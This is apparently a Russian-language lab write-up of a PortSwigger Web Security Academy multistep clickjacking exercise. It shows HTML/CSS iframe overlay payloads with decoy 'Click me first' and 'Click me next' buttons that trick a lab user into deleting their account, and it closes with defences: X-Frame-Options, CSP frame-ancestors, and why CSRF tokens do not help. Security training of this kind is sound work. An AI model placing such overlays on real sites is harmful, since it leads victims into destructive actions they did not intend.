


лаба https://portswigger.net/web-security/clickjacking/lab-multistep

задание:
нужно через кликждекинг удалить профиль юзера, но там всплывает окно подтверждения удаления

нужно сделать чтобы первая htnl форма называлась "Click me first" и нажимала на удалить ак
и потом появлялась вторая html форма с надписью Click me next" и подтвердила удаление профиля

----

вот стр личного аккаунта с кнопкой удалить аккаунт
`https://0ac900310431d36785445931001a0088.web-security-academy.net/my-account`

и вот так потом выскакивает  форма подтверждения удаления акка  
`https://0ac900310431d36785445931001a0088.web-security-academy.net/my-account/delete`




-------

итак - мне нужно чтобы первый фрем был Click me first  над кнопкой delete account
и потом после редиректа на /my-account/delete появилась вторая кнопка Click me next над кнопкой YES

-----

настраиваю

```html
<style>
    iframe {
        position: relative;
        width: 900px;
        height: 900px;
        opacity: 0.4;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 795px;
        left: 70px;
        z-index: 1;
    }
</style>
<div>Click me first</div>
<iframe id="https://0ac900310431d36785445931001a0088.web-security-academy.net" src="https://0ac900310431d36785445931001a0088.web-security-academy.net/my-account" sandbox="allow-forms allow-scripts allow-same-origin"></iframe>

```
это должно перебросить жертву на стр где есть кнопка удаления аккаунта!
вот так




-----------


и вторая кнопка

```html
<style>
    iframe {
        position: relative;
        width: 900px;
        height: 900px;
        opacity: 0.4;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 395px;
        left: 170px;
        z-index: 1;
    }
</style>
<div>Click me next</div>
<iframe  src=""></iframe>

```

----

теперь их нужно обьеденить в один скрипт и сделать так, чтобы после нажатия на первый - появлялся второй!!

вот так это делается!
элементарно!
```html
<style>
    iframe {
        position: relative;
         width: 900px;
        height: 900px;
        opacity: 0.4;
        z-index: 2;
    }
    .firstClick {
        position: absolute;
        top: 500px;
        left: 70px;
        z-index: 1;
    }
    .secondClick {
        position: absolute;
        top: 295px;
        left: 215px;
        z-index: 1;
    }
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0ac900310431d36785445931001a0088.web-security-academy.net/my-account"></iframe>
```
отправил на эксплойт серввер - и скинул жертве ссылочку на мой сервер, жертва перешла на мой сервак и тот показал ей белую страницу епта 😂, на странице две кнопки, нажми меня первой и нажми меня  второй, ахах 

но мне - главная задача - научиться защищать от таких вещей!

ну и собственно все, выглядит это все со стороны стремно, но если хорошо поколдовать над кодом и сделать все логично и красиво! то жертва и не догадается!

лаба решена!!

----

### защита

от многошагового кликджекинга защищаются теми же методами что и от обычного

самый надежный способ запретить загрузку сайта в iframe с других доменов с помощью заголовков `X-Frame-Options deny` или `Content-Security-Policy` с директивой `frame-ancestors none`

если сайт должен работать в iframe, например, для виджетов -to нужно строго ограничить список разрешенных доменов

важно, что csrf токены не защищают от кликджекинга потому что запросы идут в рамках легитимной сессии